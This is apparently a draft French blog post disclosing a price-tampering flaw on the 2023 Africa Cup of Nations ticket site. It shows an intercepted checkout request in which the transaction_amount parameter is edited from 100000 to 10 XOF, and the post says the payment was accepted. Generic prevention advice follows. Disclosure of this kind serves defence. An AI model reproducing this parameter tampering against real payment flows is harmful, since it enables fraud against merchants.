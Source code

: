 ```yaml
---
title : "CAN 2023 : La faille qui permettait d'acheter un billet de match à n'importe quel prix"
date : 2024-02-12T07:30:04Z
draft : true
images: [/images/1.png]
featuredImage: "/images/1.png"
featuredImagePreview: "/images/1.png"
---
```


# 🧟 La faille qui permettait d'acheter un billet de match à n'importe quel prix

## Introduction
Dans cet article, nous allons examiner une vulnérabilité découverte sur le site de vente de billets pour la Coupe d'Afrique des Nations de 2023 https://can2023-tickets.com/. 

Cette faille permet à une personne mal intentionnée d'acheter des billets à un prix inférieur à leur valeur réelle. Nous allons démontrer comment exploiter cette vulnérabilité et, en conclusion, donner des recommandations pour prévenir de telles failles à l'avenir.

## Détails de l'exploitation
L’exploitation est relativement très simple. 
D'abord on choisi le ticket qu'on veut acheter avec tous les détails à savoir la catégorie, la zone et le siège. 
Comment on peut le voir avec la capture ci-dessous, on a tous les éléments nécessaires et le prix du billet.

![Alt text](/images/3.png)

Ici on intercepte la requête qui permet de valider le panier pour effectuer le paiement avec Burpsuite.

![Alt text](/images/4.png)


Contenu de la requête :

```
POST /order HTTP/1.1
Host: [redacted.com]
Cookie: _session_id=8ababf97261c1f2d274494a5339a5965
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Origin: https://can2023-tickets.com
Referer: https://can2023-tickets.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
Connection: close

operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw&currency=xof&transaction_amount=100000&payer=

```
Ici nous avons les données qui sont envoyés à l'API de paiement.
Nous avons le Token de l'opération, la monnaie utilisée et le prix du billet.
Nous avons remarqué que c'est le paramètre "transaction_amount" qui envoi le prix du billet à l'API de paiement.

```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=100000
&payer=

```

On peut mettre le prix qu'on veut sur ce paramètre pour modifier le prix du billet. 

Dans notre exemple, nous allons essayé avec 10 Francs.


```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=10
&payer=

```

Et nous remarquons que le changement de prix a été effectué sans problème.

![Alt text](/images/6.png)


Après paiement, les billets seront envoyés par mail.


## Recommandations


* Mettre en place des tests de pénétration réguliers : Effectuez des tests de pénétration réguliers pour identifier et corriger les vulnérabilités avant qu'elles ne soient exploitées.

* Utiliser une validation d'entrée robuste : Assurez-vous que le site Web utilise une validation d'entrée robuste pour empêcher les utilisateurs d'injecter du code malveillant.


* Mettre à jour les composants tiers : Maintenez les composants tiers utilisés sur le site Web à jour pour éviter les vulnérabilités connues.


* Mettre en place une authentification et une autorisation solides : Implémentez un système d'authentification et d'autorisation robuste pour empêcher les accès non autorisés.


* Former les développeurs : Formez les développeurs aux meilleures pratiques en matière de sécurité pour éviter les vulnérabilités courantes. 